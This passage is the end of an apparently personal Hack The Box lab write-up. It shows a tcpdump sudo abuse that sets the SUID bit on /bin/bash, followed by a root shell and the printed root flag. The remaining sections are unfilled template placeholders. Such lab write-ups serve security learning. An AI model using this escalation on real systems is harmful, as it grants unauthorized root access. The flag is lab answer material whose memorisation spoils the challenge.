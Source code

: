 https://gtfobins.github.io/gtfobins/tcpdump/

```bash
COMMAND='chmod u+s /bin/bash'
TF=$(mktemp)
echo "$COMMAND" > $TF
chmod +x $TF
sudo tcpdump -ln -i lo -w /dev/null -W 1 -G 1 -z $TF -Z root

# ans
Maximum file limit reached: 1
1 packet captured
4 packets received by filter
0 packets dropped by kernel
```
- After that, we can run bash with SUID privileges
```bash
bash -p

cd /root
cat root.txt
# b049bcd8bca5e0ad851a95fc142690b4
```


\[Describe the final access achieved, e.g., root shell, admin credentials.\]

## Challenges Faced

\[List specific challenges encountered, e.g., difficulty identifying the correct exploit, dealing with restricted shells.\]

- **Challenge 1**: \[e.g., Nmap scans were blocked by a firewall.\]
  - **Solution**: \[e.g., Used --script-args to bypass restrictions.\]
- **Challenge 2**: \[e.g., Password cracking took too long.\]
  - **Solution**: \[e.g., Optimized wordlist with custom rules in Hashcat.\]

## Lessons Learned

\[Summarize key takeaways from solving the machine.\]

- Learned to identify \[specific vulnerability, e.g., outdated Samba versions\] through thorough enumeration.
- Improved skills in \[technique, e.g., manual exploit development for CVE-XXXX-XXXX\].
- Gained experience with \[tool, e.g., LinPEAS for privilege escalation\].

## References

- \[Link to HTB machine page, e.g., https://app.hackthebox.com/machines/Lame\]
- \[CVE details, e.g., https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-XXXX-XXXX\]
- \[Tool documentation, e.g., https://nmap.org/book/man.html\]
- \[Relevant blog post or tutorial, e.g., https://example.com/samba-exploit-guide\]

---

*Written by edibauer, \[05 2025\]. Feedback welcome at \[github.com/edibauer\].*